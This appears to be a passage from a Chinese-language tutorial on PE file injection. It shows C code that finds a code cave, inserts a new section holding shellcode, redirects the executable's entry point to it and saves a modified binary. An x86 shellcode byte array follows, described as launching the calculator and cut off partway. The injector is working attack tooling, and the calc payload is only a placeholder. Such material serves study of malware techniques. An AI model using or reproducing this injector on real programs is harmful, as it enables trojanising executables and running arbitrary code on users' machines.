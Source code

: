```c

int main(int ac, const char **av) {
	if (ac < 2) {
		printf("usage: %s [filename]\n", av[0]);
		exit(0);
	}
	FILE* file = fopen(av[1], "rb");
	if (file == NULL) {
		fprintf(stderr, "%s: No such file or directory\n", av[1]);
		exit(EXIT_FAILURE);
	}
	PE_file pefile;
	PEParse(&pefile, file);

	printf("MZ signature:\t%x\n", pefile.pimageDOSHeader->e_magic);
	printf("ImageBase:\t%08x\n", getImageBase(&pefile));
	printf("EntryPoint:\t%08x\n", getEntryPoint(&pefile));
	printf("%-8s%-8s\n", "Name", "RVA");
	for (size_t i = 0; i < pefile.pimageNTHeaders->FileHeader.NumberOfSections; i++) {
		printf("%-8s%08x\n",
			pefile.ppimageSectionHeader[i]->Name, pefile.ppimageSectionHeader[i]->VirtualAddress);
	}
	int index;
	DWORD caveSize = findLargestCave(&pefile, &index);
	printf("largest cave: %s, cave size: %08x\n", pefile.ppimageSectionHeader[index]->Name, caveSize);
	
	insertNewCodeSection(&pefile, sc, 200);
	DWORD newEntryPoint =
		pefile.ppimageSectionHeader[pefile.pimageNTHeaders->FileHeader.NumberOfSections - 1]->VirtualAddress;
	pefile.pimageNTHeaders->OptionalHeader.AddressOfEntryPoint = newEntryPoint;
	printf("change Adress of Entry Point to %x\n", newEntryPoint);
	printf("%-8s%-8s\n", "Name", "RVA");
	for (size_t i = 0; i < pefile.pimageNTHeaders->FileHeader.NumberOfSections; i++) {
		printf("%-8s%08x\n",
			pefile.ppimageSectionHeader[i]->Name, pefile.ppimageSectionHeader[i]->VirtualAddress);
	}
	PESave(&pefile, "./new_pe.exe");
	fclose(file);
	PEFree(&pefile);
}
```

测试代码打印了一部分 PE 文件参数，然后注入了一段 shellcode，并且修改程序入口点为 shellcode。

注入的 shellcode 如下，功能是调出计算器程序。

```c
unsigned char sc[] = 
"\x50\x53\x51\x52\x56\x57\x55\x89"
"\xe5\x83\xec\x18\x31\xf6\x56\x6a"
"\x63\x66\x68\x78\x65\x68\x57\x69"
"\x6e\x45\x89\x65\xfc\x31\xf6\x64"
"\x8b\x5e\x30\x8b\x5b\x0c\x8b\x5b"
"\x14\x8b\x1b\x8b\x1b\x8b\x5b\x10"
"\x89\x5d\xf8\x31\xc0\x8b\x43\x3c"
"\x01\xd8\x8b\x40\x78\x01\xd8\x8b"
"\x48\x24\x01\xd9\x89\x4d\xf4\x8b"
"\x78\x20\x01\xdf\x89\x7d\xf0\x8b"
"\x50\x1c\x01\xda\x89\x55\xec\x8b"
"\x58\x14\x31\xc0\x8b\x55\xf8\x8b"
"\x7d\xf0\x8b\x75\xfc\x31\xc9\xfc"
"\x8b\x3c\x87\x01\xd7\x66\x83\xc1"
```